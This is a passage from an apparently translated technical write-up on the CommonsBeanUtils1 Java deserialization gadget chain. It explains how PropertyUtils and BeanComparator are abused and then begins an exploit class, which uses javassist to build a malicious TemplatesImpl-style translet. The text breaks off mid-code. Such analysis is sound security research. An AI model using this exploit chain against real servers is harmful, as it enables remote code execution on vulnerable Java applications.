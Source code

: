 
## Pre-knowledge
### PropertyUtils
The `org.apache.commons.beanutils.PropertyUtils` class uses the Java reflection API to call the practical methods of the common properties `getter` and `setter` operations on the Java object. The specific usage logic of these methods is actually implemented by the `org.apache.commons.beanutils.PropertyUtilsBean`. This class has a static method `getProperty`, which receives two parameters `bean` (class object) and `name` (property name). The method will return the value of this property of this class. This is similar to a `Field` reflection tool class, but it does not use reflection to directly use reflection to get the value, but uses reflection to call its `getter` method to get the value.


![](./images/1.png)

### BeanComparator
`BeanComparator` is a class provided by `Commons-Beanutils` to compare whether two `JavaBeans` are equal, and it implements the `java.util.Comparator` interface. `BeanComparator` can specify the `property` property name and the `comparator` comparisonr when initializing, and if not specified, the default is `ComparableComparator`.

![](./images/2.png)

The `compare` method of `BeanComparator` receives two objects, calls the `PropertyUtils.getProperty` method respectively to obtain the value of the `property` property of the two objects, and then calls the `internalCompare` method of `comparator` initialized during instantiation to compare.

![](./images/3.png)

## ExploitWithCC
Based on the above idea, the final attack code is constructed as follows:

```java
package CommonsBeanUtils1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/11 4:05 pm
 */
public class CommonsBeanUtilsWithCC {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void CB() throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass("CBEvilWithCC");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
```
